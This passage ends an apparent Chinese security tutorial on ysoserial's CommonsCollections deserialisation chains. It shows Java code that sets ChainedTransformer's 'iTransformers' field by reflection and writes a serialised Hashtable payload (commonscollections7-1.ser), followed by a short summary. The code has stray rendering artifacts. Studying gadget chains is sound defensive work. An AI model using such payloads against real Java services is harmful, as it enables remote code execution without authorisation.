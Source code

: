 ```
        `}`;
        clazz = ChainedTransformer.class;
        Field itrans = clazz.getDeclaredField("iTransformers");
        itrans.setAccessible(true);
        itrans.set(chain,trans1);
        //序列化
        File file;
        file = new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections7-1.ser");
        ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream(file));
        obj.writeObject(hashTable);
    `}`
`}`
```



## 总结

ysoserial在构造整个CommonsCollections链的过程中多处用到了动态代理和反射的知识，想熟练掌握这些链的构造一定要熟悉基本概念，然后要能够想清楚每条链的是如何链接起来的，希望这篇文章能够帮助大家更好巩固CommonsCollections系列的理解，文中若有表述不对，还请师傅们指出。
